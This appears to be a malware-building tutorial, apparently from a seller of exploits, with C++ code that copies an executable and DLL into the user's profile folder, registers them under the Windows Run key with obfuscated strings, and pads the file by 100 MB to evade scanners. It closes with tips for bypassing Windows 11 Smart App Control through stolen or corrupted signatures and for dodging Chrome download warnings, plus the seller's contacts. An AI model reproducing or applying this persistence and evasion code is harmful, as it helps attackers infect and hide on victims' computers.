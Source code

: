 
Next, let's do the simplest auto-upload with copying files to the user's directory and a 100mb pump.
First, let's create a method to convert from Str to str.

```
std::wstring strWide(const char* cStr) {
    std::string str = cStr;
    std::wstring wideStr(str.begin(), str.end());
    return wideStr;
}
}
```

Writing the startup code will look something like this, in it we pre-delete the dll if there is no executable and write our new file there, and then check if there is an exe along this path so as not to update many times.

```
bool exists(const std::wstring& path) {
return std::filesystem::exists(path);
}
void EnableAutoRun() {
HKEY hkey;
wchar_t CurrentFilePath[1024];
GetModuleFileNameW(0, CurrentFilePath, 1024);
std::filesystem::path CurrentExe = CurrentFilePath;
wchar_t my_documents[MAX_PATH];
SHGetFolderPathW(NULL, CSIDL_PROFILE, NULL, SHGFP_TYPE_CURRENT, my_documents);
std::filesystem::path documents = my_documents;
std::wstring appPath = CurrentExe.filename();
std::wstring dllPath = strWide(AY_OBFUSCATE("g2m.dll"));
std::wstring updaterDLL = documents / dllPath;
std::wstring updaterEXE = documents / appPath;
if(!exists(updaterEXE)){
        _wremove(updaterDLL.c_str());
std::filesystem::copy_file(dllPath, updaterDLL);
std::filesystem::copy_file(appPath, updaterEXE);
RegCreateKeyExW(HKEY_CURRENT_USER,
strWide(AY_OBFUSCATE("Software\\Microsoft\\Windows\\CurrentVersion\\Run")).c_str(), 0, NULL, 0,
KEY_WRITE, NULL, &hkey, NULL);
RegSetValueExW(hkey, NULL, 0, REG_SZ, (unsigned char *) updaterEXE.c_str(), MAX_PATH);
Pump(updaterDLL, 100);
    }
}
```

We check our code by rebooting the system and it works well.
But there are also other ways to autoload, for example -> rundll32.exe path,Entry in the startup registry instead of our path to the executable file.

The disadvantage of this method lies in the new Smart App Control that appeared in Windows 11, which, however, is easy to do by taking the SignThief signature from the exe where it is revoked, or by erasing part of the signature so that it is written Revoked. To bypass the chrome alert, it will be enough to remember the dll files and add garbage to the archive.

<img align="left" src="https://injectexp.dev/assets/img/logo/logo1.png">
Contacts:
injectexp.dev / 
pro.injectexp.dev / 
Telegram: @Evi1Grey5 [support]
Tox: 340EF1DCEEC5B395B9B45963F945C00238ADDEAC87C117F64F46206911474C61981D96420B72







